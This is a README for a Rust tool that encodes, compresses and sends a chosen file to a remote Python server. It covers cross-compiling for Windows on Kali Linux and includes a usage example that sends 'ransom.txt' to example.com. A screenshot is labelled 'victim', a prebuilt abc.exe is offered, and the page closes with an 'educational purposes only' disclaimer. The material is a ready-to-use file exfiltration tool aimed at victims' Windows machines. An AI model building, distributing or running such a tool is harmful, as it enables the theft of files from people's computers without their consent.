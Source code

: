 # File Sender

This Rust project allows you to send a file to a specified remote server. The file is first encoded, compressed, and then transmitted with custom headers to the server. With a python server.py, it will decompress, decode and save bytes into new file.
## Installation
### Prerequisites

- Rust and Cargo: Install Rust using the official installer.
    ```bash
    curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
    ```
**Note: If you have already installed Rust on Windows, it may work with Visual Studio linker. But I prefer linux for it, so I need ***mginw*** to link and compile source **
- Cross-compilation tools (for building Windows executables on Linux):
    ```bash
    sudo apt-get update
    sudo apt-get install gcc-mingw-w64-x86-64
    rustup target add x86_64-pc-windows-gnu
    ```

### Setting Up the Project

1. Clone the repository or create a new Rust project:
    ```bash
    git clone <repository_url>
    cd <repository_directory>
    ```

2. Build the project:
    ```bash
    cargo build --release
    ```

### Cross-Compilation for Windows (On Kali Linux)

To build a Windows executable on Kali Linux, follow these steps:

1. Install the necessary tools and configure Cargo for cross-compilation:
    ```bash
    sudo apt-get install gcc-mingw-w64-x86-64
    rustup target add x86_64-pc-windows-gnu
    ```

2. Create or edit the `.cargo/config` file in your project directory:
    ```bash
    mkdir -p .cargo
    nano .cargo/config
    ```

    Add the following configuration:
    ```toml
    [target.x86_64-pc-windows-gnu]
    linker = "x86_64-w64-mingw32-gcc"
    ```

3. Build the project for Windows:
    ```bash
    cargo build --release --target x86_64-pc-windows-gnu
    ```

    The resulting executable will be in the `target/x86_64-pc-windows-gnu/release` directory.

## Usage

### Running the Application

Run listening server on remote machine:
```bash
python3 server.py
```

To run the application on local, use the following command:

```bash
./<executable_name> <file_path> <remote_server>
```
   - <file_path>: Path to the file you want to send.
   - <remote_server>: The URL of the remote server where the file should be sent.
Example:
```bash
./abc.exe ransom.txt http://example.com
```
**Server**:

![plot](./images/server.png)

**Client**

![plot](./images/victim.png)

**Note**: 
- file which is sent will be saved at ***output/*** directory on server.
- There is a prebuilt file named ***abc.exe*** that is available to use (no need to compile anymore)

> [!CAUTION]
> There is no clean code, no penetration test provided, this repo is for educational purposes only. Do not use for illegal purposes. I'm never responsible for illegal use. Educational purpose only!
## Support me (optional)
If you find it useful, you can support me with a cup of coffee.
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2123O0D)
